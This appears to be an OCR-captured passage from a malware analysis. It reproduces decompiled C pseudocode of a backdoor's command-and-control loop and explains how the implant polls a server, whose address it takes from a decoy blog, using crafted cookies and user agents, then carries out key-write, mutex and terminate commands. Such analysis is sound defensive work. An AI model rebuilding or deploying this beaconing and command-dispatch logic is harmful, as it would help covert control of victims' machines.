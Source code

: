 ```c
  {
    while ( dothing )
    {
      if ( get_file_size((LPCSTR)(url_data + 396)) == 35 )// filesize("key.bin") == 35
      {
        ++*(_DWORD *)(url_data + 392);
        if ( !(*(_DWORD *)(url_data + 392) % 0xAu) )
          status = 1;
      }
      v4 = 256;
      if ( get_keyfile(lpszServerName, portnum, status, &Buffer, (int)&v4) )
      {
        if ( v4 )
        {
          cmd = extract_cmd((int)&Buffer, v4);
          switch ( cmd )
          {
            case 0x4B:                          // K
              lpBuffer = &v7[Buffer];
              write_key_bin(&v7[Buffer], v4 - (&v7[Buffer] - &Buffer));
              break;
            case 0x53:                          // S
              do_mutex_stuff();
              break;
            case 0x54:                          // T
              dothing = 0;
              break;
          }
        }
        status = 0;
        Sleep(*(_DWORD *)(url_data + 388));     // sleep(60000)
      }
    }
  }
}
```

This routine checks for the existence of "key.bin" on the machine and if it exists (and is exactly 35 bytes in size) increments a counter. If the counter is a multiple of 10 the *status* variable is set to 1. Next the *get_keyfile* function is executed which connects to the server and port extracted from the decoy blog and sets a particular cookie value (encoding the status variable) and user agent to retrieve a keyfile from the Command & Control server:

```
int __cdecl get_keyfile(LPCSTR lpszServerName, __int16 portnum, int status, LPVOID dstBuffer, int a5)
{
  HINTERNET hConnect; // [sp+0h] [bp-F4h]@2
  unsigned int v7; // [sp+4h] [bp-F0h]@1
  signed int v8; // [sp+8h] [bp-ECh]@1
  char getparams; // [sp+Ch] [bp-E8h]@1
  char v10; // [sp+Dh] [bp-E7h]@1
  char *cookieheader; // [sp+4Ch] [bp-A8h]@4
  HINTERNET hInternet; // [sp+50h] [bp-A4h]@1
  CHAR szHeaders; // [sp+54h] [bp-A0h]@1
  char v14; // [sp+55h] [bp-9Fh]@1
  char *v15; // [sp+D8h] [bp-1Ch]@1
  HINTERNET hRequest; // [sp+DCh] [bp-18h]@3
  char *reqparam; // [sp+E0h] [bp-14h]@4
  void *v18; // [sp+E4h] [bp-10h]@4
  DWORD dwNumberOfBytesRead; // [sp+E8h] [bp-Ch]@6
  unsigned int v20; // [sp+ECh] [bp-8h]@1
  char *v21; // [sp+F0h] [bp-4h]@1

```